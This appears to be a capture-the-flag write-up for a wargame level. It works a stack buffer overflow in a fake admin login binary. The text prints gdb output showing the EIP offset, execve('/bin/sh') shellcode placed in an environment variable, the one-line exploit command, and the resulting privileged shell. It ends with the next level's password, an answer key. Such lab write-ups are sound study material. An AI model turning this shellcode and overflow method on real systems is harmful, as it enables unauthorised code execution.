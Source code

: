 This binary ask for a username that it will read from stdin. The input will then be sent to verify_user_name, I don't think it's necessary to explain its purpose. If the username is valid (dat_wil), it will then ask for a password from stdin, call veryfy_user_pass, and print "incorrect password" in any case. So finding the password will be of no use (but I did it nevertheless because I'm an idiot who doesn't read the source code, it's "admin").

Anyway, the initial guess was that we could overflow memcmp used in the verify functions. So the first step was to find which registers we could overflow, and the offset. Since the password was useless anyway, we figured out that we would try with this one first:

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    (gdb) i r
    eax            0x1	1
    ecx            0xffffffff	-1
    edx            0xf7fd08b8	-134412104
    ebx            0x33634132	862142770
    esp            0xffffd710	0xffffd710
    ebp            0x63413563	0x63413563
    esi            0x0	0
    edi            0x41346341	1093952321
    eip            0x37634136	0x37634136  <-- offset 80
    eflags         0x10286	[ PF SF IF RF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99

Great, we can overflow EIP. So we can use our now favorite technique of passing a shellcode to an env variable, finding its address and passing it to EIP. The shellcode used here is the one I crafted for the level2 of the previous project [rainfall](https://github.com/SERAC-SGM/rainfall-42/tree/main/level02)

    level01@OverRide:~$ export PAYLOAD=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')

    (gdb) b main
    Breakpoint 1 at 0x80484d5
    (gdb) r
    Starting program: /home/users/level01/level01 

    Breakpoint 1, 0x080484d5 in main ()
    (gdb) x/500s $esp
    [...]
    0xffffdf3e:	 "SSH_CONNECTION=192.168.56.1 44688 192.168.56.103 4242"
    0xffffdf74:	 "LESSOPEN=| /usr/bin/lesspipe %s"
    0xffffdf94:	 "PAYLOAD=1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"
    0xffffdfba:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
    0xffffdfdc:	 "/home/users/level01/level01"
    [...]

We get the address at 0xffffdf94. We need to remote the PAYLOAD= tho, so the real address used will be 0xffffdf9c.

    level01@OverRide:~$ (python -c  'print "dat_wil"'; python -c 'print "Y" * 80 + "\x9c\xdf\xff\xff"'; cat) | ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password: 
    nope, incorrect password...

    id
    uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
    cd ../level02
    cat .pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
